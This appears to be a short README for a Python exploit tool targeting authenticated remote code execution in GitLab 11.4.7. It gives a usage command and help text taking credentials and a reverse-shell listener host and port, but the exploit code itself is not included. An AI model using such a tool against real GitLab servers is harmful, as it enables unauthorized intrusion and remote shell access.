 # GitLab-11.4.7-Authenticated-Remote-Code-Execution


<h3> Usage : python gitlab_rce.py -U `USERNAME` -P `PASSWORD` -l `LHOST` -p `LPORT` </h3>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

<p>optional arguments:</p>

  -h, --help  show this help message and exit
  -U U        GitLab Username
  -P P        Gitlab Password
  -l L        rev shell lhost
  -p P        rev shell lport
